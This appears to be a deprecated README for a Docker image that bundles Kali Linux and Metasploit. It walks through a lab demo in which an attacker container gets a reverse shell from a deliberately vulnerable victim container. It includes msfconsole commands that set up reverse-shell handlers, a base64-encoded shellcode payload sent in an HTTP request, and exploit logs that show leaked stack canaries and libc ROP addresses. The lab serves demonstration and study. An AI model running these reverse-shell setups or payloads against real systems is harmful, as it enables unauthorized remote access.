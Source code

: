 # DEPRECATION NOTICE

Please note that this repository has been deprecated and is no longer actively maintained by Polyverse Corporation.  It may be removed in the future, but for now remains public for the benefit of any users.

Importantly, as the repository has not been maintained, it may contain unpatched security issues and other critical issues.  Use at your own risk.

While it is not maintained, we would graciously consider any pull requests in accordance with our Individual Contributor License Agreement.  https://github.com/polyverse/contributor-license-agreement

For any other issues, please feel free to contact info@polyverse.com

---

# kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
bash build.sh
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `bash build.sh`. This will create the Docker container image `polyverse/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `bash build.sh` to create a new version of `polyverse/c-exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
6. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c_exploit container.

### tcp_echo_server.sh
Similar to c-exploit above, running "tcp_echo_server.sh" will result in output something like this:
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] 172.16.1.31:8080 - Start...
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - VULN STACK FRAME...
[*] 172.16.1.31:8080 - vuln_padding:     ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - vuln_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - vuln_saved_bp:    ["d0f280fbfd7f0000"] (0x7ffdfb80f2d0)
[*] 172.16.1.31:8080 - vuln_ret_addr:    ["8a0a400000000000"] (0x400a8a)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - MAIN STACK FRAME...
[*] 172.16.1.31:8080 - main_argv_save:   ["b8f380fbfd7f0000"] (0x7ffdfb80f3b8)
[*] 172.16.1.31:8080 - main_padding:     ["00000000"]
[*] 172.16.1.31:8080 - main_argc_save:   ["01000000"] (0x1)
[*] 172.16.1.31:8080 - main_cli_len:     ["10000000"] (0x10)
[*] 172.16.1.31:8080 - main_server_port: ["34120000"] (0x1234)
[*] 172.16.1.31:8080 - main_server_fd:   ["03000000"] (0x3)
[*] 172.16.1.31:8080 - main_client_fd:   ["04000000"] (0x4)
[*] 172.16.1.31:8080 - main_server_addr: ["02001f90000000000000000000000000"]
[*] 172.16.1.31:8080 - main_client_addr: ["02009322ac1100010000000000000000"]
[*] 172.16.1.31:8080 - main_unknown:     ["b0f380fbfd7f0000"] (0x7ffdfb80f3b0)
[*] 172.16.1.31:8080 - main_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - main_saved_bp:    ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - main_ret_addr:    ["454ff962647f0000"] (0x7f6462f94f45)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - COMPUTED ADDRESSES...
[*] 172.16.1.31:8080 - a_libc_base:      0x7f6462f73000
[*] 172.16.1.31:8080 - a_stack_free:     0x7ffdfb7ff000
[*] 172.16.1.31:8080 - a_libc_mprotect:  0x7f646306b550
[*] 172.16.1.31:8080 - a_libc_read:      0x7f6463062320
[*] 172.16.1.31:8080 - a_libc_poprdi:    0x7f6463063800
[*] 172.16.1.31:8080 - a_libc_poprsi:    0x7f646305a80b
[*] 172.16.1.31:8080 - a_libc_poprdx:    0x7f6463033d40
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - Done. (If successful, you should get a promptless shell.)
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:53730) at 2017-09-15 20:38:14 +0000


